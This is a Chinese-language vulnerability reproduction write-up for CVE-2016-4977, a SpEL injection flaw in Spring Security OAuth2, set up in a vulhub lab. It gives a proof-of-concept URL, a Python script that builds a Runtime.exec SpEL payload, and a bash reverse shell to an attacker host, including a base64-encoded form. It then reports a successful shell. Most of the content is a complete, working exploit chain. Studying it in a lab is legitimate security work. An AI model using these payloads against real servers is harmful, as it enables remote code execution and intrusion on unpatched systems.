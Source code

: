 # CVE-2016-4977

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Spring Security OAuth2 远程命令执行



# 0x01 漏洞简介

Spring Security OAuth2是为Spring框架提供安全认证支持的一个模块。Spring Security OAuth2处理认证请求的时候如果使用了whitelabel views，response_type参数值会被当做Spring SpEL来执行，攻击者可以在被授权的情况下通过构造response_type值也就是通过构造恶意SpEL表达式可以触发远程代码执行漏洞。故是在需要知道账号密码的前提下才可以利用该漏洞。

# 0x02 影响版本

```
2.0.0-2.0.9
1.0.0-1.0.5
```

# 0x03 环境搭建

使用vulhub快速搭建漏洞环境

```
cd vulhub/spring/CVE-2016-4977
```

执行以下命令来启动 Spring Security OAuth 应用程序。

```
docker compose up -d
```

服务器启动后，浏览`http://your-ip:8080/`即可看到其主页。

# 0x04 漏洞复现

## POC

```
http://your-ip:8080/oauth/authorize?response_type=${2*2}&client_id=acme&scope=openid&redirect_uri=http://test
```

![Untitled](image/Untitled.png)

账号密码：admin/admin

可以看到，SpEL 表达式`${2*2}`已成功执行并返回结果。

![Untitled](image/Untitled%201.png)

## EXP

地址：[https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

构造反弹shell的命令

```bash
bash -i >& /dev/tcp/your-vps/vps-port 0>&1
```

进行base64编码

![Untitled](image/Untitled%202.png)

编码后进行拼接

```bash
bash -c {echo,base64编码内容}|{base64,-d}|{bash,-i}
```

如下：

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjE0MS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

使用上述提供的exp：

![Untitled](image/Untitled%203.png)

将生成后的payload拼接至下方地址

```bash
http://your-ip:8080/oauth/authorize?response_type=payload代码内容&client_id=acme&scope=openid&redirect_uri=http://test
```

拼接完毕后访问

![Untitled](image/Untitled%204.png)

反弹shell成功

![Untitled](image/Untitled%205.png)